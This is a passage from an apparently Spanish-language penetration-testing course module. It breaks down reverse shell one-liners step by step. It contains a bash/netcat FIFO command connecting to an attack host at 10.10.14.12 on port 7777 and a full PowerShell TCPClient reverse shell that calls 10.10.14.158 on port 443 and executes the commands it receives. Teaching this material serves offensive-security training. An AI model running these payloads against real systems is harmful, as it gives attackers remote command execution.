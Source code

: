 Concatena el FIFO named pipe file /tmp/f, el pipe (`|`) conecta la salida estándar de cat /tmp/f a la entrada estándar del comando que viene después del pipe (`|`).

### Set Shell Options

```r
/bin/bash -i 2>&1 | 
```

Especifica el intérprete de comandos usando la opción `-i` para asegurar que la shell sea interactiva. `2>&1` asegura que el flujo de datos de error estándar (`2`) y el flujo de datos de salida estándar (`1`) se redirijan al comando que sigue al pipe (`|`).

### Open a Connection with Netcat

```r
nc 10.10.14.12 7777 > /tmp/f  
```

Usa Netcat para enviar una conexión a nuestro host de ataque `10.10.14.12` que escucha en el puerto `7777`. La salida será redirigida (`>`) a /tmp/f, sirviendo la Bash shell a nuestro listener de Netcat en espera cuando se ejecute el comando de reverse shell.

---
## PowerShell One-liner Explained

Las shells y payloads que elegimos usar dependen en gran medida del OS que estamos atacando. Ten esto en cuenta mientras continuamos a lo largo del módulo. Fuimos testigos de esto en la sección de reverse shells al establecer una reverse shell con un sistema Windows utilizando PowerShell. Desglosemos la línea de comando que usamos:

### Powershell One-liner

```r
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Disectaremos el comando de PowerShell bastante grande que puedes ver arriba. Puede parecer mucho, pero con suerte podemos desmitificarlo un poco.

### Calling PowerShell

```r
powershell -nop -c 
```

Ejecuta `powershell.exe` sin perfil (`nop`) y ejecuta el bloque de comandos/script (`-c`) contenido en las comillas. Este comando en particular se emite dentro de command-prompt, por lo que PowerShell está al principio del comando. Es bueno saber cómo hacer esto si descubrimos una vulnerabilidad de Remote Code Execution que nos permite ejecutar comandos directamente en `cmd.exe`.
